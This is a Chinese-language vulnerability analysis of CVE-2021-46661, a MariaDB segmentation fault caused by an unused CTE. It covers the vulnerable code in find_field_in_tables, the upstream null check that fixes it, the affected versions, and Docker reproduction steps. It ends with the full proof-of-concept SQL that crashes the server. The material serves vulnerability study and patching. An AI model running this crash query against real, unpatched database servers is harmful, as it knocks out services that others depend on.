



# CVE-2021-46661 CWE-None MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CTE（Common Table Expression，公用表表达式）**是一种在SQL查询中临时定义结果集的语法结构，通常使用`WITH`语句引入。CTE可以让你在一个查询中像引用普通表一样多次引用这个临时结果，写法更清晰、易读，尤其适用于递归查询、分步处理复杂业务逻辑等场景。CTE只在当前一次SQL语句内有效，不会持久存储于数据库。

## 漏洞原理

MariaDB 查询解析过程的 `find_field_in_tables` 和 `find_order_in_list` 函数处理 CTE 时的实现。当用户在 SQL 语句中声明 CTE，但并未实际在查询中引用（即“未使用的CTE”），数据库在处理这些 CTE 时未能正确判断其使用情况，导致在查找字段或排序时，访问了未正确初始化的数据结构，最终导致数据库进程崩溃（segmentation fault）。

攻击者可构造特定的 SQL 语句（包含未被引用的CTE），远程触发服务进程崩溃，实现拒绝服务攻击（DoS）。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql/**sql_base.cc** 文件，第 6365 行，`find_field_in_tables()`函数用于在解析 SQL 查询时，查找表达式（比如 `order by xx`、`select xx`）中的列是否存在于某张表或派生表、视图、CTE（公用表表达式）等。

第 6437 行，当不是视图字段、不是派生表字段的时候，需要对依赖性做特殊处理。其中的第 6443 行的循环从当前SELECT一路向外，查到目标SELECT，看这条“链”上每一层是不是都满足特定条件。其中的第 **6446** 行**直接访问** `sl->master_unit()->item->get_IN_subquery()`，这是**漏洞点**所在。如果`item`为`NULL`，则会发生空指针解引用，导致进程崩溃。

```c
// sql_base.cc 文件，第 6437 行，find_field_in_tables()函数内

  /*
    Only views fields should be marked as dependent, not an underlying
    fields.
  */
  if (!table_ref->belong_to_view &&
      !table_ref->belong_to_derived)
  {
    SELECT_LEX *current_sel= item->context->select_lex;
    SELECT_LEX *last_select= table_ref->select_lex;
    bool all_merged= TRUE;
      // 6443 行
    for (SELECT_LEX *sl= current_sel; sl && sl!=last_select;
         sl=sl->outer_select())
    {
        // 6446 行 ***************** 漏洞点
      Item_in_subselect *in_subs=
        sl->master_unit()->item->get_IN_subquery();
      if (in_subs &&
          in_subs->substype() == Item_subselect::IN_SUBS &&
          in_subs->test_strategy(SUBS_SEMI_JOIN))
      {
        continue;
      }
      all_merged= FALSE;
      break;
    }
    /*
      If the field was an outer referencee, mark all selects using this
      sub query as dependent on the outer query
    */
    if (!all_merged && current_sel != last_select)
    {
      mark_select_range_as_dependent(thd, last_select, current_sel,
                                     found, *ref, item, true);
    }
  }
```

## 漏洞修复


在 `find_field_in_tables()` 中，先将 `sl->master_unit()->item` 保存到局部变量 `subs`，并通过 `if (!subs) continue;` 检查其是否为空。只有 `subs` 非空时才调用 `subs->get_IN_subquery()`，从而避免在某一层的 `item` 为 `NULL` 时发生空指针解引用。

```c
if (!table_ref->belong_to_view &&
          !table_ref->belong_to_derived)
  {
    SELECT_LEX *current_sel= item->context->select_lex;
    SELECT_LEX *last_select= table_ref->select_lex;
    bool all_merged= TRUE;
    for (SELECT_LEX *sl= current_sel; sl && sl!=last_select;
         sl=sl->outer_select())
    {
        // Increase the portion
      Item *subs= sl->master_unit()->item;
      if (!subs)
        continue;

      Item_in_subselect *in_subs= subs->get_IN_subquery();
      if (in_subs &&
          in_subs->substype() == Item_subselect::IN_SUBS &&
          in_subs->test_strategy(SUBS_SEMI_JOIN))
      {
        continue;
      }
      all_merged= FALSE;
      break;
    }
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.42
- 10.3.0 至 10.3.33
- 10.4.0 至 10.4.23
- 10.5.0 至 10.5.14
- 10.6.0 至 10.6.6
- 10.7.0 至 10.7.2

**影响组件：** 通用表表达式 (CTE)、视图、排序依据、字段解析（find_field_in_tables、find_order_in_list）。

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46661-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46661-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46661-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS，且问题出现在`find_field_in_tables`中，和漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 创建测试表
create table t1 (f1 INTEGER);

-- 创建测试视图
create view v1 as
select
    subq_0.c4 as c2,
    subq_0.c4 as c4
  from
    (select
          ref_0.f1 as c4
        from
          t1 as ref_0
        where (select 1)
        ) as subq_0
  order by c2, c4 desc;

-- 触发漏洞的 SQL，声明了未被实际使用的CTE
WITH unused_with AS (
    select
        subq_0.c4 as c6
      from
        (select 11 as c4 from v1 as ref_0) as subq_0,
         v1 as ref_2
)
select 1;
```

创建视图`v1`，里面用到了子查询`subq_0`，且order by了两次同一个表达式（c2, c4 desc），而这两个其实引用的都是`subq_0.c4`。之后使用CTE（公用表表达式）`unused_with`，但**CTE并没有被实际引用**，主查询只是`select 1`。

测试语句中 `WITH unused_with AS (...) SELECT 1;`，CTE（unused_with）**只声明但没有在主查询中使用**，这导致数据库在构建语法和依赖链时，相关内部结构（如 item 指针）没有被完全初始化。MariaDB 在处理未被使用的 CTE 时，仍然会遍历和处理 CTE 内部的结构。由于 CTE 没被用，相关指针（如 item）为 NULL，但老版本代码没有判空保护，于是在依赖链遍历时访问了 NULL 指针，**导致数据库进程崩溃**。

## 参考链接


[NVD - CVE-2021-46661](https://nvd.nist.gov/vuln/detail/CVE-2021-46661)

[[MDEV-25766\] Unused CTE lead to a crash in find_field_in_tables/find_order_in_list - Jira](https://jira.mariadb.org/browse/MDEV-25766)

[MDEV-25766 Unused CTE lead to a crash in find_field_in_tables/find_or… ·  MariaDB/server@0168d1e](https://github.com/MariaDB/server/commit/0168d1eda30dad4b517659422e347175eb89e923#diff-1b5e7c5b0f7e9d2faae9f88fdfe122fd2226359ef698fc135857d1a1a51dca2eR1627-R1633)

[server/sql/sql_base.cc at mariadb-10.6.8 · MariaDB/server](https://github.com/MariaDB/server/blob/mariadb-10.6.8/sql/sql_base.cc)
